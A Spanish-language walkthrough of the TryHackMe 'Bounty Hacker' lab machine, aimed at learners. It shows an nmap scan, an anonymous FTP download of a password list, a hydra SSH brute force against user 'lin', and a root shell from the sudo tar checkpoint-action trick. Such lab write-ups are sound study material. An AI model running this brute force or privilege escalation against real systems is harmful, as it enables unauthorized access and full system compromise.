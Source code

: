 # Resolución de la Máquina: Bounty Hacker

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 23/06/2025
- **Sistema Operativo:** Linux


## Descripción
"Bounty Hacker" es una máquina de nivel fácil alojada en TryHackMe, ideal para principiantes en el hacking ético y resolución de CTFs. Simula un entorno realista en el que se deben explotar servicios comunes con configuraciones débiles para lograr el acceso inicial, y luego realizar una escalada de privilegios sencilla para comprometer completamente el sistema.

La máquina representa un escenario típico donde un atacante aprovecha credenciales filtradas o débilmente protegidas para comprometer un sistema remoto.

Esta máquina es especialmente útil para:

> Practicar la enumeración de servicios expuestos y banners con herramientas como Nmap

> Conectarse a través de SSH usando claves privadas (id_rsa) encontradas durante la fase de reconocimiento

> Reforzar habilidades de análisis de archivos locales y búsqueda de flags

> Aplicar técnicas básicas de escalada de privilegios en sistemas Linux a partir de binarios con permisos inseguros o configuraciones débiles

## Enumeración

### Escaneo con Nmap

```bash
└─$ nmap --open -T5 -sS -n -Pn -sV 10.10.97.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-23 13:30 CEST
Nmap scan report for 10.10.97.62
Host is up (0.049s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```
## Intrusión
Encontraremos un servidor FTP al que podremos acceder con usuario anonymous, eso si, deberemos desactivar el modo pasivo. Una vez conectados haremos un get de los dos archivos del FTP.

```bash
└─$ ftp 10.10.97.62
Connected to 10.10.97.62.
220 (vsFTPd 3.0.3)
Name (10.10.97.62:yeray): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt 
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |**********************************************************************************************************************************************************************************************|   418        2.75 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (2.09 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |**********************************************************************************************************************************************************************************************|    68       28.01 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (1.35 KiB/s)
```

El contenido de los ficheros es el siguiente:
```bash
└─$ cat locks.txt                                      
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
```bash
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Si pasamos un hydra hacia lin con las contraseñas vistas podremos encontrar su contraseña
```bash
└─$ hydra -V -t 4 -l lin -P locks.txt ssh://10.10.97.62
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-23 14:02:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.97.62:22/
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "ReDdr4g0nSynd!cat3" - 2 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "Dr@gOn$yn9icat3" - 3 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3DDr46ONSYndIC@Te" - 4 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "ReddRA60N" - 5 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3dDrag0nSynd1c4te" - 6 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "dRa6oN5YNDiCATE" - 7 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "ReDDR4g0n5ynDIc4te" - 8 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3Dr4gOn2044" - 9 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "RedDr4gonSynd1cat3" - 10 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3dDRaG0Nsynd1c@T3" - 11 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "Synd1c4teDr@g0n" - 12 of 26 [child 3] (0/0)
[22][ssh] host: 10.10.97.62   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-23 14:02:46
```
```bash
└─$ ssh lin@10.10.97.62
The authenticity of host '10.10.97.62 (10.10.97.62)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.97.62' (ED25519) to the list of known hosts.
lin@10.10.97.62's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
##Escalada de privilegios
Si hacemos un sudo -l veremos la siguiente salida
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
En GTFOBins encontraremos la manera de poder escalar privilegios mediante este binario sobre el cual tenemos permiso de sudo.

```bash
lin@bountyhacker:~$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/tar: Removing leading `/' from member names
# whoami
root
```
Encontraremos el flag de root en /root/root.txt
